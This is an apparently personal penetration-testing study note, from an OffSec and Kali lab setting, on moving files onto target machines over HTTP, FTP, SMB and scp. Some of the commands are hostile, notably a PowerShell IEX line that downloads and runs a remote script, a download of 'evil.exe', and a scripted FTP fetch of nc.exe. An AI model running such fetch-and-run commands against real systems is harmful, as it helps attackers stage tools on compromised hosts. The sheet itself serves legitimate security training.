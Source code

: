 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[File Transfers]]  
___

## Description:  

### http
host webpage on Kali
`python3 -m http.server 80`

Get the file with:
```
curl http://192.168.19.55/test.c --output test.c

wget 172.16.0.109/test

Invoke-WebRequest http://10.10.14.45:1234/required_tool -O tool

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```

You can run a powershell script right away with:
```
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```

### FTP server
`sudo python3 -m pyftpdlib -p21 -w`
If available, use authbind with an unprivileged account to bind to port 21
`authbind python -m pyftpdlib -p21 -w`

Or you can setup Pure-FTPd
```
sudo apt update && sudo apt install pure-ftpd

kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd


kali@kali:~$ chmod +x setup-ftp.sh
kali@kali:~$ sudo ./setup-ftp.sh
Password:
Enter it again:
Restarting ftp server

```


**Retrieve with Linux
`ftp 10.11.0.4`

**Retrieve with windows
```
C:\Users\offsec> ftp -h

C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo lab>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt


C:\Users\offsec> ftp -v -n -s:ftp.txt
```

### SMB server
```
On kali:

sudo smbserver.py share `pwd`

On Windows:

net use z: \\10.10.14.10\share

```

### SMB server with samba
```
kali@kali:~$ sudo apt install samba
...
kali@kali:~$ sudo mv /etc/samba/smb.conf /etc/samba/smb.conf.old
kali@kali:~$ sudo nano /etc/samba/smb.conf
```
smb.conf
```
[visualstudio]
path = /home/kali/data
browseable = yes
read only = no
```
create a samba user that can access the share
```
kali@kali:~$ sudo smbpasswd -a kali
New SMB password:
Retype new SMB password:
Added user kali.
kali@kali:~$ sudo systemctl start smbd
kali@kali:~$ sudo systemctl start nmbd
```
create the shared folder and open up the permissions
```
kali@kali:~$ mkdir /home/kali/data
kali@kali:~$ chmod -R 777 /home/kali/data
```
On windows open up file explorer and visit `\\192.168.119.120`. When prompted provide the username and password.
### scp
```
Remote Host to Local (push):
scp username@from_host:file.txt /local/directory/

Local to Remote Host (pull):
scp file.txt username@to_host:/remote/directory/

Use -r for directories

Remote to Remote:
scp username@from_host:/remote/directory/file.txt username@to_host:/remote/directory/
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:18 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
